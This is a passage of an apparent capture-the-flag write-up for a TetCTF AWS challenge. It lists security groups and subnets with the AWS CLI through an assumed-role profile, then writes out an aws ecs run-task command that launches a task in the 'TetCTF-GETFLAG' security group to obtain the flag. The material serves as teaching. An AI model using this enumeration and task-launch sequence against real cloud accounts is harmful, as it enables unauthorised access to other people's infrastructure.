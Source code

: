```
            "GroupId": "sg-0e0be2c862c2b3241",
            "IpPermissionsEgress": [],
            "VpcId": "vpc-07e8cd02a7c992f43"
        },
        {
            "Description": "GET FLAG",
            "GroupName": "TetCTF-GETFLAG",
            "IpPermissions": [],
            "OwnerId": "543303393859",
            "GroupId": "sg-0636ad23bae6f21e7",
            "IpPermissionsEgress": [
                {
                    "IpProtocol": "-1",
                    "IpRanges": [
                        {
                            "CidrIp": "0.0.0.0/0"
                        }
                    ],
                    "Ipv6Ranges": [],
                    "PrefixListIds": [],
                    "UserIdGroupPairs": []
                }
            ],
            "VpcId": "vpc-07e8cd02a7c992f43"
        }
    ]
}
```
```
aws ec2 describe-subnets --profile assume (output redacted for brevity)
```
What we learned from the command that was ran above.

-   1. The cluster arn is `arn:aws:ecs:eu-west-2:543303393859:cluster/CtfEcsCluster`
    

-   2.  There is a security group called `TetCTF-GETFLAG,`its vpc id is vpc-07e8cd02a7c992f43 and its group id is `sg-0636ad23bae6f21e7`
    
```
aws ec2 describe-subnets --filters  "Name=vpc-id,Values=vpc-07e8cd02a7c992f43"  --profile assume
```
-   3. Filtering based on the vpc-id, there are 4 subnets that we can use
    

Next, lets understand what does ECS Run Task perform.

Based on the AWS Documentation, the RunTask starts a new task using the specified task definition.

Looking at the policy statement, we are able to then craft out the command
```
{
    "Action": "ecs:RunTask",
    "Resource": "arn:aws:ecs:eu-west-2:543303393859:task-definition/TetCtf2StackCtfTaskDefB40F186A:3",
    "Effect": "Allow"
}
```
```
aws ecs run-task --task-definition TetCtf2StackCtfTaskDefB40F186A:3 \

--cluster CtfEcsCluster \

--network-configuration "awsvpcConfiguration={subnets=[subnet-05dc4f12caf437c48],securityGroups=[sg-0636ad23bae6f21e7],assignPublicIp=ENABLED}" \

--launch-type FARGATE --profile assume
```
